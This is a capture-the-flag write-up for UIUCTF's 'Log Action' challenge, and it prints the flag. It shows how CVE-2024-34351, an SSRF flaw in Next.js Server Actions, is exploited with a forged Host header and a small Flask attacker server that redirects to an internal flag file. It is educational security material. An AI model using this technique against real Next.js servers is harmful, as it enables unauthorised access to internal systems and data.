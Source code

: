 - Challenge name: Log Action
- Author: Minh
- Description: 
I keep trying to log in, but it's not working :'(
http://log-action.challenge.uiuc.tf/
- Solves: 105
- Key: uiuctf{close_enough_nextjs_server_actions_welcome_back_php}
- Solver: `Flex` in `SpeedBambooFox`

# Overview

In this challenge, we are dealing with a website set up using Docker compose, with Next.js as the frontend.

## Provides files

The provides files `log-action.zip` have the following file structure:

```
./log-action
├── backend
│   └── flag.txt
├── docker-compose.yml
└── frontend
    ├── .gitignore
    ├── Dockerfile
    ├── entrypoint.sh
    ├── next-env.d.ts
    ├── next.config.mjs
    ├── package-lock.json
    ├── package.json
    ├── postcss.config.mjs
    ├── src
    │   ├── app
    │   │   ├── admin
    │   │   │   └── page.tsx
    │   │   ├── global.css
    │   │   ├── layout.tsx
    │   │   ├── login
    │   │   │   └── page.tsx
    │   │   ├── logout
    │   │   │   └── page.tsx
    │   │   └── page.tsx
    │   ├── auth.config.ts
    │   ├── auth.ts
    │   ├── lib
    │   │   └── actions.ts
    │   └── middleware.ts
    ├── tailwind.config.ts
    └── tsconfig.json
```

# Exploration

## Checking the Website

The web page given in the challenge contains only some simple text and a clickable text `here`, as shown below:
![The Website](./images/image1.png)

After clicking `here`, a page with two inputs appears, one of which is for `Username`, and the other is for `Password`.
![The Website](./images/image2.png)

After typing, we will find the text `Something went wrong`.
![The Website](./images/image3.png)

After my initial inspection of the site, I didn't find anything interesting, so I turned to researching the files given by the challenge.

## Checking the given file

After checking the given file, I realized this is the source code of the site in the challenge, and in the `backend` folder, I found `flag.txt`, which should be where the flag is located, then I started looking for any way to access `flag.txt`.

After a bit of searching, I realized that the login function didn't really help in finding flags. After thinking about it for a while, since I have experience in writing websites using the Next.js framework, it occurred to me that Next.js is a server-side rendering web framework, so I look for any vulnerabilities that would help me to access the server-side to get `flag.txt`.

Then I found `CVE-2024-34351`, which was discovered in May of this year, and it was fixed in Next.js `v14.1.1`, and I found that the Next.js version of the source code is `14.1.0`, the following is a detailed introduction to the vulnerability:

> A Server-Side Request Forgery (SSRF) vulnerability was identified in Next.js Server Actions. If the Host header is modified, and the below conditions are also met, an attacker may be able to make requests that appear to be originating from the Next.js application server itself. An attacker is able to read the full HTTP response when successfully exploiting this SSRF issue.
>
> and conditions are:
> - A server action is defined;
> - The server action redirects to a URL starting with /;
> - We are able to specify a custom Host header while accessing the application.

Then I found this article, `https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps`, which has a detailed description of how this vulnerability is exploited and how it works.

As mentioned in this article, if the redirect starts with / (for example, a redirect to /login) the server will fetch the result of the redirect _server side_, then return it. Then I inspect the source code provided in the challenge, some pages do use the redirect() function and the redirect url starts with '/',  such as the logout page:

![The Website](./images/image4.png)

![The Website](./images/image5.png)

We can utilize the logout page, when we click the `Log out` button, the website will redirect to `/login`, then we can forge a host header pointing to our attacker server endpoint. 

When our attacker server receive any `HEAD` request, return a response with the header `Content-Type: text/x-component`, and when our attacker server receive `GET` request, return a redirect response to the flag location, we can use a URL like `http://backend/flag.txt` to access files in nginx container built with docker.  

# Exploit

Here's a modified version of a Flask example taken from the above article:
``` python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')

```

Once we have set up our attacker server, we click on the button and use Burp Suite to change the `Host` and `Origin` in the request header to our attack host:
![The Website](./images/image6.png)

Then, we can get the flag in the challenge via reponse:
![The Website](./images/image7.png)

# References

- https://github.com/azu/nextjs-CVE-2024-34351/tree/main
- https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps